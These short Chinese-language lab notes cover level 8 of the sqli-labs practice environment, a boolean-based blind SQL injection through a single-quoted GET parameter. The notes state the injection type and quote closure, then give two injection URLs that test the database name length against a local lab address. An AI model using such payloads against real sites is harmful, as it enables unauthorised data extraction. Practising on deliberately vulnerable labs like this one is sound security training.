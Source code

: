 ### Less-8：GET - Blind - Boolian Based - single Quotes

**注入类型**

布尔盲注

**闭合方式**

id='\$id'

```sql
//判断数据库长度
http://192.168.65.128/sqli-labs/Less-8/?id=1'
and length(database())>=8 --+
http://192.168.65.128/sqli-labs/Less-8/?id=1'
and length(database())>=9 --+ 
```

![](file/image_nepIBUwFMH.png)
